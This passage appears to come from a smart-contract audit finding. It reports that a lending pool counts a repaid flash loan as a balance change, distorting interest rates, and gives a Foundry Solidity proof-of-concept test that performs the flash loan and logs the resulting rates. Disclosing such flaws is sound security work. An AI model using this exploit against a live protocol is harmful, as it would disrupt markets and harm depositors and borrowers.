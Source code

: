 - A reserve should have some debt so that the protocol can update the borrow rate.

### External pre-conditions

_No response_

### Attack Path

A malicious actor just borrows a flash loan to destabilize the ecosystem of a reserve.

### Impact

After a flash loan, the balance change should be just a flash loan fee but the logic provides the entire loan repay as the balance change to update the interest rates.

Therefore excessively out-of-orbit interest rates will severely disrupt the normal deposit and borrowing operations.

### PoC

I added this test case to `PoolFlashLoanTests.t.sol`.
```solidity
  function test_simple_flashloan_underlyingbalance_poc() public {
    bytes memory emptyParams;
    MockFlashLoanSimpleReceiver mockFlashSimpleReceiver = new MockFlashLoanSimpleReceiver(pool);
    _generateFlashloanCondition();

    vm.prank(bob);
    pool.borrowSimple(address(tokenA), bob, 50 ether, 0);

    poolFactory.setFlashloanPremium(2);
    uint256 premium = poolFactory.flashLoanPremiumToProtocol();
    assertEq(premium, 2);

    DataTypes.ReserveSupplies memory reserveSuppliesData = pool.getTotalSupplyRaw(address(tokenA));
    console.log("underlyingBalance Before flash loan: ", reserveSuppliesData.underlyingBalance);
    console.log("Actual Balance Before flash loan: ", tokenA.balanceOf(address(pool)), "\n");

    vm.warp(block.timestamp + 1 hours);

    vm.startPrank(alice);

    vm.expectEmit(true, true, true, true);
    emit PoolEventsLib.FlashLoan(address(mockFlashSimpleReceiver), alice, address(tokenA), 1000 ether, (1000 ether * premium) / 10_000);
    emit Transfer(address(0), address(mockFlashSimpleReceiver), (1000 ether * premium) / 10_000);

    pool.flashLoanSimple(address(mockFlashSimpleReceiver), address(tokenA), 1000 ether, emptyParams);
    vm.stopPrank();

    reserveSuppliesData = pool.getTotalSupplyRaw(address(tokenA));
    console.log("underlyingBalance After flash loan: ", reserveSuppliesData.underlyingBalance);
    console.log("Actual Balance After flash loan: ", tokenA.balanceOf(address(pool)), "\n");

    DataTypes.ReserveData memory reserveData = pool.getReserveData(address(tokenA));
    console.log("Borrow Rate After flash loan: ", reserveData.borrowRate);
    console.log("Liquidity Rate After flash loan: ", reserveData.liquidityRate);
  }
```
